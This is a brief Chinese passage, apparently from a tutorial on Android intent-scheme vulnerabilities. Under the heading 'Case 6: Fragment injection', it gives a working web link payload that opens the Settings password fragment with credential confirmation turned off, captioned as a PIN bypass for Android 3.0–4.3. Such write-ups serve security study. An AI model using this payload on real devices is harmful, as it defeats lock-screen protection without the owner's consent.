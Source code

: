 ![](img/selector.jpg)

**案例6：Fragment注入(绕过PIN+拒绝服务)**

Fragment这里只提一下，以后可能另写一篇。

	<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
    16、bypass Pin android 3.0-4.3 （selector）
	</a><br>

![](img/pin.png)
